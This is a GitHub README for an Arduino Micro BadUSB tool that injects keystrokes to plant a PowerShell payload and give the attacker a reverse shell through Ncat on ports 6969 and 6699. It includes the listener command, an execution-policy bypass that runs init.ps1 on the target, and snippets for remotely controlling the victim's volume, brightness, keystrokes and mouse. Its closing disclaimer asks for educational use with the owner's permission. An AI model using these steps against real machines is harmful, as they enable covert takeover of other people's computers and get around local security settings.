 # Arduino Micro BadUSB
Arduino Micro BadUSB is a repository containing all the files and scripts necessary to run a HID (Human Interface Device) attack using an Arduino Micro or other similar microcontrollers. The client will be able to gain access to the target machine through a reverse shell using Ncat.

## Usage
Once the script in `deploy.ps1` has been entered via USB connection or manual input, the program will automatically set itself up.

The program will start attempting to connect to port 6969 and 6699 when it has finished setting up.

The listener machine will have to execute the following command in powershell in order to allow the target machine to connect:
```powershell
.\ncat.exe -l [port_num]
```
Once connected, run the following command to allow script execution and run init.ps1
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; cd..; .\init.ps1
```
## Shortcuts
This program can allow the listener to execute basic powershell commands on target machine, but also has a few extra features:

 - Volume control
 - Brightness control
 - Sending keystrokes
 - Mouse control

**Volume Control**
```bash
[audio]::Volume = 0.5 # 0.5 = 50%, etc.
[audio]::Mute = $true  # Set to $false to un-mute
```

**Brightness Control**
```powershell
Invoke-CimMethod -InputObject (Get-CimInstance -Namespace root/wmi -ClassName WmiMonitorBrightnessMethods) -MethodName WmiSetBrightness -Arguments @{Brightness = 50; Timeout = 1} # 50 = 50%, etc.
```

**Sending Keystrokes**
```powershell
$wshell.SendKeys('some text')
$wshell.SendKeys('{ENTER}') # presses the ENTER key
$wshell.SendKeys('%{TAB}') # alt + TAB
$wshell.SendKeys('{e 21}') # presses e 21 times
```
See full list at [SendKeys Class (System.Windows.Forms)](https://learn.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys)

**Mouse Control**
```powershell
# relative movement
$p1 = [System.Windows.Forms.Cursor]::Position.X + 100
$p2 = [System.Windows.Forms.Cursor]::Position.Y + 100

# absolute movement
$p1 = 1000
$p2 = 20

[System.Windows.Forms.Cursor]::Position = New-Object System.Drawing.Point($p1, $p2)
```



## Disclaimer
This repository and the files contained within it should be used on devices for educational purposes only with the owner's permission.

I do not take any responsibility for any loss of data, breach of privacy, or harm caused by the use this program. Use at your own risk.

